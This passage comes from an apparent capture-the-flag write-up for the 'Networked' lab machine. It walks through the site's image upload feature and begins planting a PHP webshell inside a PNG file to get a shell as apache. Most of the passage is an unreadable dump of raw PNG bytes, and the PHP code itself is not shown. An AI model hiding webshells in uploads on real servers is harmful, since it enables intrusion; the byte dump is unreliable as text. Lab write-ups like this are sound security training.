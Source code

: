 ### Intended Functionality

I took at look at the site as it was intended. On `/upload.php`, there’s a
simple form:

![1566725658313](https://0xdfimages.gitlab.io/img/1566725658313.png)

I created a png real quick, and upload it. The page returns:

![1566725684851](https://0xdfimages.gitlab.io/img/1566725684851.png)

I’ll jump over to the other page I have from the source, `photos.php`:

![1566725726691](https://0xdfimages.gitlab.io/img/1566725726691.png)

I see my image, and if I right-click and select view image, I’m taken to
`/uploads/10_10_14_5.png` and returned the image.

## Shell as apache

### Create Webshell

I already know from the source how to upload files to Networked. I’ll open my
png from earlier in `vim` and go down a couple lines, and add some php:

    
    
    <89>PNG
    ^Z
    ^@^@^@^MIHDR^@^@^A<A5>^@^@^@<D2>^H^F^@^@^@<EA><82><DF>c^@^@^@   pHYs^@^@^N<C4>^@^@^N<C4>^A<95>+^NESC^@^@^Z:IDATx<9C><ED><DD>]כ(^T<86><E1>g<83>o<FF><FF><FF><AD><C0>^\<80><DF>Ɛ<A4>v<A0><B9><AF><B5><E6><A0>S^M<A0><94><8D><80>bf<96>^D^@@^C<DC><FF><9D>^A^@^@&^D%^@@J^@<80>f^P
    <94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD>^X~~~<FE><EF><^@^@ <89>'%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA   ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA     ^@<D0>^L<82>^R^@<A0>^Y^D%^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4cH)<FD><DF>y^@^@@^ROJo#<98><E3>^N<D4>+ܡ<A7>zEP^B^@4<83><A0>^D^@h^FA  ^@<D0>^L<82>^R^@<A0>^Y<C3><FF><9D><81>^?M<8A>AQN<DE><D9><FF><9D><95><8D><BB><F3><D5>j<B9><FF>^U)^FŇs<D5>&3<93>{<F3>ڿ}<EF>RT<88>I漦S^_<E6><D3>J^^<8D><FA>ђ;<EB>J=IQ!J<CE>;5<F7>O<DB>L<D6>^<AE><FE>9<E6><8E><F7>><A5><A8><94><92>Bl<A7>S<B0><CD>gRJI)&^EY<9B><F5><F7>˵T<AF>^HJ<F8>#<CC>hh<EE><97>{<AE><FB><EB>l<E6>K<8F>7*<A6><E5><A9><E5><FF><B3>ϧ<C9>LR<8A><8A>1)<C6>(<EF><98>9hG[<F5><8A><A0><F4>^W<A4>^T<95>b<D2><FC><94>l&w<E8><99>$Ř6<EF>^S<98><B9><F9><D1>y<FD><98>^]C<90><EC>^O<F4>^RTLIs<92>fr<E6><B4>^_aI1^_<B7><E4>ݔBTZ<E5>a?^D4<FF>٤<98><A2><96><D3><DD>_^_^N<F8>^Ff&<9D><BD><8B>Ry<8F><AB><CE>;<E9>M<BF><96>I'<E7><F2><90>_Lj x♗<EA>ծ~,m@i<DB><F2><81><F9>8˝<93><B9>]pn^^ڥ<BB>r<B7><D2>;<CC><FF> <F3>^?<96><92>b<88>Z<DF><EA>^X<F2>^M<9A><8E>q<CE><E6>1{I<AB>q{<93><F3><FE><8F>^D<A4>^P<93><92>V<F9>RR
    <U+070F>1Ǡ<98>R        &NΤ^X*_<C4>+^Uל<97><F7>^<CE>L)ŋ1l<FC>Q<B5><F7><B8><F6><BC>]<9D>}K<E9><91><F7><F4>2'v^<A9>^_)*&<93>y/<EF><A7><FA><97><DB>D<B3>U<BB>^P<A3>b9<85><A0>t<B3><94><96><A7>^C<B3><F5><C4>᪗1<F5>!<9C><9B><8F>Y^G<81>ESCr5^GJ<BF>ɗ<DB>5^X<B9>G<AB>M<FE><9D><BC>Se
    <E3>d<9B><B1>js4HwHS<C7>g^Z&<CB><FF><B7><F2>^^^_=><AF><FC><E6>G<98>y<EC><C5>y<BD>z<B5>~<D8><FC><EF>>?%<E5><B6>O<AB><A7><F5><F9><EF>˩^L<DF><DD><EC>l^B1<F7>^V<8F><FF><B8>S<CA>Cb<B6>9<EE>Ƽ^]<C6>pr<E5>K))<AD>^Z<8F><C3>q%<FF>O<9B><A7><9B><F3><FF>}R^^<BA>=<F3>`x<AD><F6>^^<AF>
    <D3>xv<9E>><BD><AB>9*~<FE>;<F8>C^<A9>W/֏Gm<C0>ŭ'(<DD>.<AF>:ʍ<C0><D6>z"<D8>9˓<C0>!h<9E>x<B4>m^O<E5><CF>e)<E7><E5><E9>O<D7>^^<87><BF>d<DD><EB><CC>R<DC><CE><ED>-^?<F1>潛<EA>i^Lz<D0>L}X'<CA>^H^AK<C3>ESC<F2>z<BD><FA><AC>~<9C>^G<AA><A9>}$(<DD>,/^R<C8><C3>Xn<B5>
    
